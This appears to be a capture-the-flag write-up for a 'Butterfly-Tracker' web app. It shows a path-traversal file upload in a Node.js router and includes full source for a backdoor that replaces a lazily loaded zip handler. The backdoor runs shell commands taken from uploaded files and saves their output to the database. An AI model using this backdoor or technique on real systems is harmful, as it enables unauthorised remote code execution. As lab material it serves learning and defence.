

# Writeup for Butterfly-Tracker

The vulnerability in this Web App lies with the way that the backend handles file uploads  
That happens in `backend/routes/router.js`. These lines are specifically the problem:  
```Javascript
const filedata = fs.readFileSync(body.file[0].filepath);
fs.writeFileSync(`./uploads/${body.file[0].originalFilename}`, filedata)
```

`body.file[0].originalFilename` comes straight out of the body of a POST request with no input validation happening on the backend. We can modify POST requests to include `../` in the field that becomes originalFilename giving us arbitrary file write  

How do we turn an arbitrary file write into RCE?  

We need to think of a way to have the target execute a file that we write.  

One way to do this is to look for `require` statements that have not been invoked yet.  

Look at how uploaded zip file are handled:
```Javascript
if (body.file[0].originalFilename.endsWith(".zip")) {
    const ziphandler = require('../ziphandler/ziphandler')

    file_list = await ziphandler.handleZip(body.file[0].filepath);
```
The first time a zip file is uploaded, `../ziphandler/ziphandler` will be required  

So, if we write a backdoor to `ziphandler/ziphandler.js` it will be loaded the first time a zip file is handled by the server  

There are a lot of creative ways you can write this backdoor. I chose to have it work by uploading a file ending in .zip which contains shell commands and their args seperated by newlines. The output of each command written to the database in the form of a butterfly, which will then be viewable from the "Butterfly List" tab.  

Here is the backdoor:  

```JavaScript
const fs = require('fs');
const schemas = require('../models/schemas')
const child_process = require('child_process');

async function handleZip(filepath) {
    try {
        var filedata = fs.readFileSync(filepath).toString();

        if (filedata[filedata.length-1] === "\n") {
            filedata = filedata.slice(0, -1);
        }

        const filedata_split = filedata.split("\n");
        const command = filedata_split[0];
        const args = filedata_split.slice(1, filedata_split.length);

        const result = child_process.spawnSync(command, args, {
            cwd: process.cwd(),
            env: process.env,
            stdio: 'pipe',
            encoding: 'utf-8',
        });

        var output = "";

        if ("error" in result) {
            output = "error!"
        } else if ("output" in result) {
            output = JSON.stringify(result["output"])
        }

        const butterflyData = {
            species: command, 
            wingspan: 10,
            color: output,
            date: new Date(),
        }

        const newButterfly = new schemas.Butterflies(butterflyData);
        await newButterfly.save();
        
    } catch (error) {
        return [];
    }

    return [];
}


module.exports = { handleZip };
```

Now I can use the file write vulnerability to overwrite the existing `ziphandler.js` with our backdoor'd version  
I will use BurpSuite to do this. I will not explain what BurpSuite is or how it works here, there are plenty of tutorials online that can help if you are unfamiliar. I intercepted our post request uploading the backdoor, and changed the filename before forwarding. Like so:  


Next, I created and uploaded files ending in .zip, whose contents will be the commands I would like to run. For example:  


When each of those are uploaded, a database entry will be created with a new butterfly containing the command output as the butterflies color  

Here is what the results look like in the "Buttefly List" part of the app:

